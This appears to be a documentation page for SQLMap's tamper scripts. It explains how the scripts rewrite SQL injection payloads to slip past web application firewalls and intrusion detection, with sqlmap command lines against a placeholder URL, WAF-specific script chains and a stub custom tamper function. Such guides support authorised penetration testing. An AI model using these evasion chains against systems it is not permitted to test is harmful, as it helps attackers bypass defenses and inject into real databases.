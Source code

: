 ```yaml
---
title: Tamper Scripts
description: Learn how to use SQLMap's tamper scripts to evade detection and bypass security controls
---
```


# Tamper Scripts

SQLMap's tamper scripts are powerful tools that modify SQL injection payloads to help evade detection by security mechanisms such as Web Application Firewalls \(WAFs\), Intrusion Detection Systems \(IDS\), and Intrusion Prevention Systems \(IPS\).

## Understanding Tamper Scripts

Tamper scripts work by transforming the SQL injection payload before it's sent to the target. These transformations can include:

- Character encoding
- Case manipulation
- Whitespace modification
- Comment insertion
- Syntax alterations
- String concatenation

## Using Tamper Scripts

### Basic Usage

To use a single tamper script:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between
```

This applies the `between` tamper script, which replaces greater than and less than operators with equivalent BETWEEN expressions.

### Chaining Multiple Scripts

You can chain multiple tamper scripts, which will be applied in the specified order:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,space2comment,randomcase
```

This applies three tamper scripts in sequence:
1. `between`: Replaces operators with BETWEEN expressions
2. `space2comment`: Replaces spaces with comments
3. `randomcase`: Randomizes the case of SQL keywords

## Common Tamper Scripts

### Character Encoding Scripts

- `base64encode`: Encodes all characters in Base64
- `charencode`: URL-encodes all characters in a payload
- `charunicodeencode`: Unicode-encodes characters
- `hex2char`: Replaces hexadecimal encoded characters with their actual character

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charencode
```

### Whitespace Manipulation Scripts

- `space2comment`: Replaces spaces with comments
- `space2dash`: Replaces spaces with dashes followed by a comment
- `space2hash`: Replaces spaces with hashes followed by a random string and a new line
- `space2plus`: Replaces spaces with plus signs
- `space2randomblank`: Replaces spaces with random whitespace characters

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment
```

### Case Manipulation Scripts

- `randomcase`: Randomizes the case of SQL keywords
- `lowercase`: Converts all uppercase characters to lowercase
- `uppercase`: Converts all lowercase characters to uppercase

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=randomcase
```

### Syntax Modification Scripts

- `between`: Replaces greater than and less than operators with BETWEEN expressions
- `equaltolike`: Replaces equal operators with LIKE operators
- `greatest`: Replaces greater than operator with GREATEST function
- `ifnull2ifisnull`: Replaces IFNULL with IF(IS NULL)
- `modsecurityversioned`: Adds versioned MySQL comment

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,equaltolike
```

## WAF-Specific Tamper Scripts

### ModSecurity

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,space2hash,charunicodeencode,securesphere
```

### Cloudflare

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare
```

### F5 BIG-IP ASM

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charunicodeencode,space2randomblank,apostrophemask,randomcase
```

### Imperva SecureSphere

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=securesphere
```

## Creating Custom Tamper Scripts

You can create custom tamper scripts to address specific evasion needs:

1. Create a Python file in the SQLMap `tamper` directory
2. Define a `tamper` function that takes and returns a payload
3. Implement your transformation logic

Example custom tamper script (`mytamper.py`):

```python
#!/usr/bin/env python

def tamper(payload, **kwargs):
    """
    Description of your tamper script
    """
    retVal = payload
    
    if payload:
        # Your transformation logic here
        retVal = payload.replace("SELECT", "SEL/**/ECT")
    
    return retVal
```


## Troubleshooting Tamper Scripts

If you're having issues with tamper scripts:

1. Use verbose mode (`-v`) to see the transformed payloads
2. Try different combinations of tamper scripts
3. Ensure the tamper scripts are compatible with your target DBMS
4. Consider the order of tamper scripts, as it can affect the final payload
5. Some tamper scripts may break the syntax for certain injection types
